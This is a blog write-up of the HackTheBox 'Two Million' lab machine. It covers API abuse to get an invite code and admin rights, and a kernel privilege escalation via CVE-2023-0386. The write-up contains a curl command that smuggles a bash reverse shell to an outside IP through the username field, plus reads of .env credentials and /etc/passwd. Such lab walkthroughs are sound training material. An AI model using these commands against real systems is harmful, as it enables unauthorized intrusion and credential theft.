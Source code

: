 ```yaml
---
title: "Two Million"
date: 2023-06-27 18:02:00 +0800
categories: [Writeups, HackTheBox]
tags: [cve, api]
image:
  path: /banners/twomillion.png
---
```




> Description : Two Million is an easy level box which was released because of the celebration of the 2 million user milestone.
{: .prompt-info }



<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic1.png" alt="Alt Text">
</a>




## Nmap-scan


First, let's initiate a quick scan utilizing nmap.


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic2.png" alt="Alt Text">
</a>


We need to include "2million.htb" in our /etc/hosts file

```bash
echo "10.10.11.221 2million.htb" >> /etc/hosts
```



## Trying to have access

Upon visiting the website, I discovered it's an outdated version of the HackTheBox platform. To gain access, I attempted to log in using the default credentials, but unfortunately, I received an error message indicating that the user not found.
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic3.png" alt="Alt Text">
</a>

While exploring the website, I discovered that I can join the platform by obtaining an invite code.


`http://2million.htb/invite`


I came across a JavaScript code that contains some intriguing elements. 


`/js/inviteapi.min.js`

<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic4.png" alt="Alt Text">
</a>


I am interested in generating my own invite code as well.

I will examine the endpoint "/api/v1/invite/how/to/generate" to gather more information.



<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic6.png" alt="Alt Text">
</a>


After decoding the ROT13 cipher, we discovered the method to generate our own invite code.



<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic7.png" alt="Alt Text">
</a>

Let's proceed with generating our invite code using the discovered method


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic5.png" alt="Alt Text">
</a>

Since the invite is encoded using base64, it should be easy to obtain one.



```bash
curl -s -X POST http://2million.htb/api/v1/invite/generate | jq .data.code -r |base64 -d
```

## Gain administrative



Upon logging in with the provided invite code, I have started exploring additional API resources to discover more useful functionalities.
Fortunately, I have come across some intriguing findings that piqued my interest. "/api/v1"


```bash
curl -s http://2million.htb/api/v1 -H "Cookie: PHPSESSID=b0akpjn8hlj8h2085dv674tgkv" |jq .
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}

```



I will attempt to update my settings



```json
"PUT": {
         "/api/v1/admin/settings/update": "Update user settings"
      }
```



<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic8.png" alt="Alt Text">
</a>


Great!

## Having a RCE

Now that we have administrative access, we can examine :

```json
 "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
```

It seems that after spending some time searching, I have discovered a vulnerability in the username parameter. This is a significant finding as it allows you to inject commands and potentially gain unauthorized access.

`/api/v1/admin/vpn/generate`


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic9.png" alt="Alt Text">
</a>

Now that we have identified vulnerability, we can exploit it 

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate -H "Cookie: PHPSESSID=b99sapscujo3dg9l7c454tt4fm" -H "Content-Type: application/json" -d '{"username":"$(bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1')"}'
```

Congratulations! HAHA

## PrivEsc 

After logging in, I discovered an interesting file named ".env".
(A .env file is typically used to store sensitive information)

 ```bash
 
 ls -la
total 56
drwxr-xr-x 10 root root 4096 Jun  8 21:40 .
drwxr-xr-x  3 root root 4096 Jun  6 10:22 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4096 Jun  8 21:40 VPN
drwxr-xr-x  2 root root 4096 Jun  6 10:22 assets
drwxr-xr-x  2 root root 4096 Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4096 Jun  6 10:22 css
drwxr-xr-x  2 root root 4096 Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4096 Jun  6 10:22 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  6 10:22 js
drwxr-xr-x  2 root root 4096 Jun  6 10:22 views
```
```bash
cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=S************3
```

Upon inspecting the ".env" file, I found that it contains admin credentials

```bash

cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/bash
```


`admin is an user`

I will attempt to switch to the "admin" user by using the provided pass

we have gained access 'YoHOO'

While conducting further research, you came across some intriguing findings indicating the presence of a potential CVE

```bash
admin@2million:/var/www/html$ find / -perm -u=s -type f 2>/dev/null |grep "tmp"
/tmp/cve/ovlcap/upper/file
/tmp/.troll80lvl/CVE-2023-0386/ovlcap/upper/file
/tmp/CVE-2023-0386-main/ovlcap/lower/file
/tmp/CVE-2023-0386-main/ovlcap/upper/file
```


CVE-2023-0386  POC: 
[Link to CVE-2023-0386 Repository](https://github.com/xkaneiki/CVE-2023-0386)

By following the POC, I have acquired the ability to escalate the privileges to the root user level.

```bash
root@2million:/var/www/html# whoami
root
root@2million:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```
